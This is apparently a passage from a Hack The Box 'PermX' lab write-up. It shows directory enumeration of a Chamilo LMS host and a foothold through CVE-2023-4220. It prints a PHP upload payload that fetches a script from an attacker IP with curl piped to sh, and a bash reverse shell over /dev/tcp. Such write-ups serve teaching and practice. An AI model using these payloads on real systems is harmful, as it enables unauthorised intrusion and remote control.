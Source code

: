 ```c
[15:09:23] 403 -  278B  - /server-status/                                   
[15:09:24] 200 -    8KB - /README.md                                        
[15:09:27] 200 -  444B  - /src/                                             
[15:09:28] 301 -  312B  - /src  ->  http://lms.permx.htb/src/               
[15:09:31] 302 -    0B  - /user.php  ->  whoisonline.php                    
[15:09:32] 200 -    1KB - /vendor/                                          
[15:09:32] 200 -    0B  - /vendor/autoload.php                              
[15:09:32] 200 -    0B  - /vendor/composer/autoload_files.php
[15:09:32] 200 -    0B  - /vendor/composer/ClassLoader.php
[15:09:32] 200 -    1KB - /vendor/composer/LICENSE
[15:09:32] 200 -    0B  - /vendor/composer/autoload_psr4.php                
[15:09:32] 200 -    0B  - /vendor/composer/autoload_static.php              
[15:09:32] 200 -    0B  - /vendor/composer/autoload_namespaces.php          
[15:09:32] 200 -    0B  - /vendor/composer/autoload_real.php                
[15:09:32] 200 -    0B  - /vendor/composer/autoload_classmap.php            
[15:09:34] 200 -    6KB - /web.config                                       
[15:09:34] 200 -  479B  - /web/                                             
[15:09:39] 200 -  531KB - /vendor/composer/installed.json                    
                                                                             
Task Completed
```

### Chamillo Enumeration

From the `README.md` we extracted the `version` of the running instance.

- [http://lms.permx.htb//README.md](http://lms.permx.htb//README.md)

```c
# Chamilo 1.11.x
```

## Foothold

### CVE-2023-4220: Chamilo LMS Unauthenticated Big Upload File Remote Code Execution

The version of `Chamilo LMS` running on the box was vulnerable to `CVE-2023-4220` which allows an `unauthenticated` attacker to `upload arbitrary files` to the system.

- [https://starlabs.sg/advisories/23/23-4220/](https://starlabs.sg/advisories/23/23-4220/)

We prepared our payloads and followed the `Proof of Concept (PoC)` steps described in the article.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/PermX/files]
└─$ echo '<?php system("curl http://10.10.14.66/x|sh"); ?>' > rce.php
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/PermX/serve]
└─$ cat x 
#!/bin/bash
bash -c '/bin/bash -i >& /dev/tcp/10.10.14.66/9001 0>&1'
```
